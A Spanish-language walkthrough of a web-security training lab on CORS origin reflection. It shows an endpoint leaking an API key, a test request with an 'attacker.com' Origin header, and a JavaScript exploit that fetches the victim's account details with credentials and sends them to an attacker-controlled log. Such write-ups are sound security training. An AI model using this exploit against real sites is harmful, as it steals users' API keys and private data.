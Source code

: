# Lab: CORS vulnerability with basic origin reflection

This website has an insecure CORS configuration in that it trusts all origins.

To solve the lab, craft some JavaScript that uses CORS to retrieve the administrator's API key and upload the code to your exploit server. The lab is solved when you successfully submit the administrator's API key.

You can log in to your own account using the following credentials: `wiener:peter`

![Practitioner](https://img.shields.io/badge/level-Apprentice-green) 

---

Iniciamos el laboratorio y nos encontramos con un sitio de compras online:
![image](https://github.com/user-attachments/assets/27097d64-5cfd-42ac-882e-a8d2e4704b4f)

Tenemos que acceder a algun endpoint que nos permita visualizar nuestra API key, por lo que procedemos a autenticarnos con nuestras credenciales `wiener:peter`:
![image](https://github.com/user-attachments/assets/6aac9bd4-4886-4833-a96d-762e03af1942)

Dashboard del usuario `wiener`:
![image](https://github.com/user-attachments/assets/08d91dd3-eace-4c2d-a73d-adb1b5e7426b)

Notamos que además tramita un endpoint interesante:
![image](https://github.com/user-attachments/assets/3d1cff9f-aaa0-4f4a-a5b2-a3e2c427323b)

El endpoint `/accountDetails` muestra una configuración vulnerable a CORS con reflexión de origen, y la imagen demuestra claramente que la explotación es posible. 
La solicitud GET a `/accountDetails` devuelve información sensible del usuario autenticado:
```json
{
  "username": "wiener",
  "email": "",
  "apikey": "KNOtNNLqwPrDs2yrDB1WSo909dr1VGaE",
  "sessions": [...]
}
```
Y el encabezado de respuesta:
```http
Access-Control-Allow-Credentials: true
```

Esto permite que el navegador envíe cookies en solicitudes cross-origin.

Esto es inseguro si el servidor también refleja el origen (`Origin`) sin validación.

Para validar esto, enviamos esta solicitud al `Repeater` y añadimos una nueva cabecera `Origin: https://attacker.com`, la respuesta incluirá:
```http
Access-Control-Allow-Origin: https://attacker.com
```

Realizamos la prueba, esta nueva captura confirmá que el sitio es vulnerable a una explotación CORS con reflexión de origen:
![image](https://github.com/user-attachments/assets/5231fe33-2b1f-4d25-a0c2-ec335fa74439)

- El servidor está reflejando dinámicamente el origen proporcionado (https://attacker.com).

- Y permite el uso de cookies/autenticación (Access-Control-Allow-Credentials: true).

Un atacante puede desde su propio dominio malicioso (attacker.com) hacer una solicitud autenticada con cookies del usuario víctima a `/accountDetails`, y robar la API key y otros datos privados.

Procedemos a utilizar un script:
```javascript
var req = new XMLHttpRequest();
req.onload = function() {
    location='/log?data=' + this.responseText;
};
req.open('GET', 'https://0af80099040020e7ec49840800a3004f.web-security-academy.net/accountDetails', true);
req.withCredentials = true;
req.send();
```





